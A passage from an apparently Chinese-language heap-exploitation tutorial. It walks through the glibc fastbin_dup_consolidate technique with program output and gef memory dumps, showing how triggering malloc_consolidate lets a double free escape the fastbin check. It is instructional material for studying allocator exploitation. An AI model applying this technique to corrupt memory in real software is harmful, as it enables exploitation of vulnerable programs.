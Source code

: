 ```c
}
```

```text
$ gcc -g fastbin_dup_consolidate.c
$ ./a.out
Allocated two fastbins: p1=0x17c4010 p2=0x17c4030
Now free p1!
Allocated large bin to trigger malloc_consolidate(): p3=0x17c4050
In malloc_consolidate(), p1 is moved to the unsorted bin.
Trigger the double free vulnerability!
We can pass the check in malloc() since p1 is not fast top.
Now p1 is in unsorted bin and fast bin. So we'will get it twice: 0x17c4010 0x17c4010
```

这个程序展示了利用在 large bin 的分配中 malloc_consolidate 机制绕过 fastbin 对 double free 的检查，这个检查在 fastbin_dup 中已经展示过了，只不过它利用的是在两次 free 中间插入一次对其它 chunk 的 free。

首先分配两个 fast chunk：

```text
gef➤  x/15gx 0x602010-0x10
0x602000:   0x0000000000000000  0x0000000000000021  <-- chunk p1
0x602010:   0x4141414141414141  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000000021  <-- chunk p2
0x602030:   0x4242424242424242  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000020fc1  <-- top chunk
0x602050:   0x0000000000000000  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000000000
0x602070:   0x0000000000000000
```

释放掉 p1，则空闲 chunk 加入到 fastbins 中：

```text
gef➤  x/15gx 0x602010-0x10
0x602000:   0x0000000000000000  0x0000000000000021  <-- chunk p1 [be freed]
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000000021  <-- chunk p2
0x602030:   0x4242424242424242  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000020fc1  <-- top chunk
0x602050:   0x0000000000000000  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000000000
0x602070:   0x0000000000000000
gef➤  heap bins fast
[ Fastbins for arena 0x7ffff7dd1b20 ]
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0x602010, size=0x20, flags=PREV_INUSE)
```

此时如果我们再次释放 p1，必然触发 double free 异常，然而，如果此时分配一个 large chunk，效果如下：

```text
gef➤  x/15gx 0x602010-0x10
0x602000:   0x0000000000000000  0x0000000000000021  <-- chunk p1 [be freed]
0x602010:   0x00007ffff7dd1b88  0x00007ffff7dd1b88      <-- fd, bk pointer
0x602020:   0x0000000000000020  0x0000000000000020  <-- chunk p2
0x602030:   0x4242424242424242  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000411  <-- chunk p3
0x602050:   0x0000000000000000  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000000000
0x602070:   0x0000000000000000
gef➤  heap bins fast
[ Fastbins for arena 0x7ffff7dd1b20 ]
Fastbins[idx=0, size=0x10] 0x00
gef➤  heap bins small
[ Small Bins for arena 'main_arena' ]
[+] small_bins[1]: fw=0x602000, bk=0x602000
 →   Chunk(addr=0x602010, size=0x20, flags=PREV_INUSE)
```